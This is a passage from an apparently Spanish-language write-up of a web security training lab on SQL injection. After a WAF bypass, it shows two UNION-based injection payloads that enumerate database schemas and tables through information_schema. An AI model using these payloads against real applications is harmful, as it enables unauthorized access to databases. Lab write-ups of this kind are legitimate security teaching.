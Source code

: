 ![](/assets/img/ps-writeup-sqli/ps-lab18_6.png)

Bypasseado el WAF, puedo continuar con el ataque UNION para enumerar la base de datos.

```sql
unions select schema_name from information_schema.schemata--
```

![](/assets/img/ps-writeup-sqli/ps-lab18_7.png)

```sql
union select table_name from information_schema.tables where table_schema='public'--
```

![](/assets/img/ps-writeup-sqli/ps-lab18_8.png)
